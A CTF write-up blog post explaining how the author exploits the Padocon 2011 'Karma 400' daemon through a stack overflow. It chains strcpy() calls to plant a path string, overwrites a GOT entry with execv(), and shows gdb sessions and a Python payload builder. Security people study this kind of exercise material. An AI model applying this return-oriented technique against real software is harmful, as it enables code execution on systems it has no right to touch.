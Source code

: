```yaml
---
title: 'Padocon 2011 CTF Karma 400 exploit: the data re-use way'
author: longld
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:4:{s:5:"bitly";s:0:"";s:9:"permalink";s:89:"http://www.vnsecurity.net/2011/01/padocon-2011-ctf-karma-400-exploit-the-data-re-use-way/";s:7:"tinyurl";s:26:"http://tinyurl.com/7n94rq8";s:4:"isgd";s:19:"http://is.gd/UTugS9";}'
tweetbackscheck:
  - 1408358972
twittercomments:
  - 'a:0:{}'
tweetcount:
  - 0
categories:
  - 'CTF - CLGT Crew'
tags:
  - '2011'
  - CLGT
  - CTF
  - padocon
  - return-to-libc
  - ropeme
---
```

Karma 400 at Padocon 2011 Online CTF is a fun challenge. The binary was provided without source code, you can reach its decompiled source at <a href="http://disekt.tk/node/39" target="_blank">disekt&#8217;s team writeup</a>. In that writeup, the solution was bruteforcing address of IO stdin buffer with return to do_system() trick. Karma 400 is different than other karma attackme:

*   It runs as a network daemon (via xinetd): so you cannot abuse its arguments and environments
*   Input buffer is 200 bytes: you have room for payload (not only just overwrite saved EIP)
*   There is a 10 seconds sleep before main() returns: this makes bruteforcing less effective

In this post I will show how to exploit karma 400 with [data re-use method][1].

<pre class="brush: plain; title: ; notranslate" title="">$ gdb -q karma400_lolcosmostic
gdb$ pattern_create 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
gdb$ r
input: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
--------------------------------------------------------------------------[regs]
 EAX: 0x00000000  EBX: 0x41346141  ECX: 0xBFFFF384  EDX: 0x00B84FF4  o d I t S z a p c
 ESI: 0x00000000  EDI: 0x61413561  EBP: 0x62413961  ESP: 0xBFFFF3DC  EIP: 0x08048793
 CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007B
[0x007B:0xBFFFF3DC]------------------------------------------------------[stack]
0xBFFFF42C : 64 37 41 64 38 41 64 39 - 41 65 30 41 65 31 41 65 d7Ad8Ad9Ae0Ae1Ae
0xBFFFF41C : 41 64 32 41 64 33 41 64 - 34 41 64 35 41 64 36 41 Ad2Ad3Ad4Ad5Ad6A
0xBFFFF40C : 36 41 63 37 41 63 38 41 - 63 39 41 64 30 41 64 31 6Ac7Ac8Ac9Ad0Ad1
0xBFFFF3FC : 63 31 41 63 32 41 63 33 - 41 63 34 41 63 35 41 63 c1Ac2Ac3Ac4Ac5Ac
0xBFFFF3EC : 41 62 36 41 62 37 41 62 - 38 41 62 39 41 63 30 41 Ab6Ab7Ab8Ab9Ac0A
0xBFFFF3DC : 30 41 62 31 41 62 32 41 - 62 33 41 62 34 41 62 35 0Ab1Ab2Ab3Ab4Ab5
--------------------------------------------------------------------------1
=&gt; 0x8048793:    ret
 0x8048794:    nop
 0x8048795:    nop
 0x8048796:    nop
--------------------------------------------------------------------------------
0x08048793 in ?? ()
gdb$ x/x $esp
0xbffff3dc:    0x31624130

gdb$ pattern_offset 200 0x31624130
Searching for 0Ab1 in buf size 200
32
</pre>

We have 200-32 = 168 bytes left for our payload. The goal is to execute a custom shell in /tmp, for this purpose I choose execv("/tmp/v", ptr\_to\_NULL).

**Step 1:** transfer the string "/tmp/v" to un-used data region using chained strcpy() calls

<pre class="brush: plain; title: ; notranslate" title="">gdb$ x/32wx 0x08049a50
0x8049a50:    0x00000000    0x00000000    0x00000000    0x00000000
0x8049a60 &lt;stdin&gt;:    0x00b85440    0x00000000    0x00000000    0x00000000
0x8049a70:    0x00000000    0x00000000    0x00000000    0x00000000
0x8049a80 &lt;stdout&gt;:    0x00b854e0    0x00000000    0x00000000    0x00000000
0x8049a90:    0x00000000    0x00000000    0x00000000    0x00000000
0x8049aa0:    0x00000000    0x00000000    0x00000000    0x00000000
0x8049ab0:    0x00000000    0x00000000    0x00000000    0x00000000
0x8049ac0:    0x00000000    0x00000000    0x00000000    0x00000000

TARGET = 0x8049a90
NULLARGV = TARGET - 4

gdb$ info func strcpy@plt
All functions matching regular expression "strcpy@plt":

Non-debugging symbols:
0x080484f0  strcpy@plt

STRCPY = 0x080484f0

gdb$ x/4i 0x80485e3
 0x80485e3:    pop    ebx
 0x80485e4:    pop    ebp
 0x80485e5:    ret
 0x80485e6:    lea    esi,[esi+0x0]
gdb$

POP2RET = 0x80485e3

gdb$ findsubstr 0x08048000 0x08049000 "/tmp/v\x00"
Searching for '/tmp/vx00'
'/': 0x8048134
't': 0x80480f6
'm': 0x80482dc
'p': 0x8048313
'/': 0x8048134
'vx00': 0x80485e7

DATA1 = [0x8048134, 0x80480f6, 0x80482dc, 0x8048313, 0x8048134, 0x80485e7]
</pre>

The payload will look like:  
[ STRCPY, POP2RET, TARGET, DATA1[0],  STRCPY, POP2RET, TARGET+1, DATA1[1], ... ]

**Step-2:** overwrite GOT entry of puts() (or any function) with execv()  
This is a bit tricky, because libc address is ASCII ARMOR we cannot put execv() address directly on the payload. Fortunately, libc address is not randomized so we can directly overwrite GOT with execv() address using strcpy likes the data above.

<pre class="brush: plain; title: ; notranslate" title="">gdb$ p execv
$2 = {&lt;text variable, no debug info&gt;} 0xac4680 &lt;execv&gt;

EXECV = 0xac4680
gdb$ info functions puts@plt
All functions matching regular expression "puts@plt":

Non-debugging symbols:
0x08048540  puts@plt
gdb$ x/i 0x08048540
 0x8048540 &lt;puts@plt&gt;:    jmp    DWORD PTR ds:0x8049a48

PLTADDR = 0x08048540
GOTADDR = 0x8049a48

gdb$ findsubstr 0x08048000 0x08049000  0xac4680
Searching for 'x80Fxac'
'x80': 0x804803d
'F': 0x8048003
'xac': 0x80481b0

gdb$ findsubstr 0x08048000 0x08049000  0x00
Searching for 'x00'
'x00': 0x8048007

DATA2 = [0x804803d, 0x8048003, 0x80481b0, 0x8048007]
</pre>

The payload will look like:  
[ STRCPY, POP2RET, GOTADDR, DATA2[0], STRCPY, POP2RET, GOTADDR+1, DATA2[1], ... ]

Finally, we make call to execv() via puts@plt:  
[ PLTADDR, 0xdeadbeef, TARGET, NULLARGV ]

We have a small problem, our payload size is 176. Each strcpy() call takes 16 bytes payload and there is 10 calls for data transfer, we have to reduce at least 1 call. We can tweak our custom shell a bit to reduce payload length, instead of "/tmp/v" we use "/tmp/ld-linux.so.2" so the last string to copy is "/ld-linux.so.2".

<pre class="brush: plain; title: ; notranslate" title="">gdb$ findsubstr 0x08048000 0x0804a000  "/"
Searching for '/'
'/': 0x8048134
gdb$ x/s 0x8048134
0x8048134:     "/lib/ld-linux.so.2"
gdb$ x/s 0x8048138
0x8048138:     "/ld-linux.so.2"

DATA1 = [0x8048134, 0x80480f6, 0x80482dc, 0x8048313, 0x8048138]
</pre>

Wrap things up and test:

<pre class="brush: python; title: ; notranslate" title="">gdb$ shell python
Python 2.6.6 (r266:84292, Sep 15 2010, 15:52:39)
[GCC 4.4.5] on linux2
Type "help", "copyright", "credits" or "license" for more information.
&gt;&gt;&gt; TARGET = 0x8049a90
&gt;&gt;&gt; NULLARGV = TARGET - 4
&gt;&gt;&gt; STRCPY = 0x080484f0
&gt;&gt;&gt; POP2RET = 0x80485e3
&gt;&gt;&gt; DATA1 = [0x8048134, 0x80480f6, 0x80482dc, 0x8048313, 0x8048138]
&gt;&gt;&gt; PAYLOAD = []
&gt;&gt;&gt; for i in range(len(DATA1)):
...     PAYLOAD += [STRCPY, POP2RET, TARGET+i, DATA1[i]]
...
&gt;&gt;&gt; for i in range(len(DATA2)):
...     PAYLOAD += [STRCPY, POP2RET, GOTADDR+i, DATA2[i]]
...
&gt;&gt;&gt; PAYLOAD += [PLTADDR, 0xdeadbeef, TARGET, NULLARGV]
&gt;&gt;&gt; len(PAYLOAD)
40
&gt;&gt;&gt; fd = open("payload", "wb")
&gt;&gt;&gt; import struct
&gt;&gt;&gt; fd.write("A"*32) # padding
&gt;&gt;&gt; for i in range(len(PAYLOAD)):
...     fd.write(struct.pack("&lt;I", PAYLOAD[i]))
...
&gt;&gt;&gt; fd.close()
&gt;&gt;&gt; ^D

gdb$ shell ln -s /usr/bin/id /tmp/ld-linux.so.2
gdb$ r &lt; payload
input: process 1866 is executing new program: /usr/bin/id

Program received signal SIGPIPE, Broken pipe.
</pre>

Pwned!

*Notes*:

*   This way can also be applied to exploit karma 500
*   Disekt's return to do_system() trick is really neat for local exploit

 [1]: http://force.vnsecurity.net/download/longld/BHUS10_Paper_Payload_already_inside_data_reuse_for_ROP_exploits.pdf